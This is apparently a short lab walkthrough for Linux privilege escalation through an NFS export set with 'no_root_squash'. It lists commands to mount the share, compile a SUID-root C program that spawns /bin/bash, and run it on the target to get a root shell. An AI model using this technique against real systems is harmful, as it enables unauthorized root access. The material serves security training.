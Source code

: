 
######################################################################
(NFS Root Squashing)


1. In command line type: cat /etc/exports
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

1. Open command prompt and type: showmount -e 10.10.46.44
2. In command prompt type: mkdir /tmp/1
3. In command prompt type: mount -o rw,vers=2 10.10.46.44:/tmp /tmp/1
In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
4. In command prompt type: gcc /tmp/1/x.c -o /tmp/1/x
5. In command prompt type: chmod +s /tmp/1/x

Linux VM

1. In command prompt type: /tmp/x
2. In command prompt type: id

